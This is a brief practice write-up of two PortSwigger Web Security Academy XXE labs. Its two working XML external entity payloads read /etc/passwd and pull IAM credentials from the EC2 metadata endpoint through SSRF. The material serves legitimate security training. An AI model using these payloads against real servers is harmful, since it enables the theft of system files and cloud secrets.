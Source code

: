 ```yaml
---
title: XXE - APPRENTICE
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE"
---
```


# XXE - APPRENTICE
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response. 
* Goal: To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file. 

## Lab: Exploiting XXE using external entities to retrieve files

### Recon
1. Use Burp Suite to intercept package
![](https://i.imgur.com/gMn3Cbu.png)
You can notice that it use a normal xml format.

### Exp - Inject Directly
Exploit Payload:
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/2Xbsq4L.png)

---
![](https://i.imgur.com/3npCzv9.png)
:::

---

## Lab: Exploiting XXE to perform SSRF attacks
* Description: This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
* Goal: To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Recon
1. Intercept Package
From the screenshot of the package, we noticed that the xml attached data could be injected.
![](https://i.imgur.com/6o3vhzm.png)

### Exp - Inject Directly
Exploit Payload:
```xml!
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/hYjBqR8.png)

---
![](https://i.imgur.com/4ZBkJpE.png)
:::